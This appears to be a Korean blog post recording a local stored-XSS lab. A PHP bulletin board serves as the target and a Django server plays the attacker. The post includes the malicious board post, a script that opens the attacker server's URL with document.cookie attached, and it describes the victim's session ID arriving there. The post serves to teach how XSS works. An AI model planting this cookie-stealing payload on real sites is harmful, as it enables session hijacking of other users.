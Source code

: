 ```yaml
---
title: XSS 실습
author: ngwoon
layout: post
categories:
- Network
tags:
- Network
- XSS
---
```


# [Network] XSS 실습
- - -

이전에 네트워크를 공부하면서 [XSS에 대한 내용](https://ngwoon.github.io/network/2020/08/18/HTML-Cookie/)을 접한 적이 있었다. 해당 내용을 공부하면서, 머릿속으로 이해는 된 것 같았으나 시간이 지나고 그 내용을 떠올리려 하는데 잘 떠오르지 않았다. 이에 간단한 실습을 해보면서 XSS의 개념을 되짚어보고자 한다.
<br/><br/>


## 실습 개요
XSS는 해커가 심어놓은 js코드를 다른 사용자가 실행하도록 의도하는 행위이다. 이 실습에서는 사용자의 세션ID를 훔치는 시나리오를 따른다. 이 실습을 위해선 해커가 권한을 얻고자 하는 목표 사이트, 해커의 서버가 필요하다. 목표 사이트는 php를 이용한 간단한 서버이고, 해커의 서버는 django로 만들었다. 말이 거창하지, XSS의 흐름을 대충 이해하기 위한 굉장히 간단한 실습이다.

### 목표 사이트
목표 사이트는 WAMP을 이용하여 간단하게 만들었다. 전형적인 게시판 사이트이고, 해커가 여기에 js코드가 삽입된 글을 올려서 다른 사용자가 해당 글을 볼 때 사용자의 세션ID를 훔칠 것이다.

![타겟 홈페이지](/assets/images/post/Network/XSS실습/XSS_target_site.png)

### 해커의 사이트
해커 서버는 따로 HTML 페이지를 제작하지 않고, 세션ID를 훔친 모습을 보여주기 위해 다른 사용자의 세션ID를 훔쳤을 때 HttpResponse로 해당 내용을 페이지에 띄우도록 설정했다.
![해커 서버 코드](/assets/images/post/Network/XSS실습/hacker_server_code.png)
<br/><br/>


## 실습 내용

### 1. 해커가 악성 게시글을 올린다.
해커가 올릴 내용은 아래와 같다.
```jsx
안녕하세요 여러분 ㅎㅎ 반갑습니다.
<script>
window.open('http://localhost:8000/'+document.cookie);
</script>
```
![해커 게시글](/assets/images/post/Network/XSS실습/hacker_post.png)
![해커 글 올린 뒤](/assets/images/post/Network/XSS실습/after_hacker_post.png)
<br/>

### 2. 다른 사용자가 해당 게시글 클릭
다른 사용자가 해당 게시글을 클릭하면, 해당 사용자에겐 일반적인 게시글이 보인다. 하지만 동시에 사용자의 세션ID가 해커의 사이트에서 출력된다. 아래 두 이미지의 url을 보면 사용자의 세션이 다른 사이트로 넘어갔음을 확실히 알 수 있다.

![평범한 게시글](/assets/images/post/Network/XSS실습/normal_post.png)
![해커 서버에 세션](/assets/images/post/Network/XSS실습/hacker_get_session.png)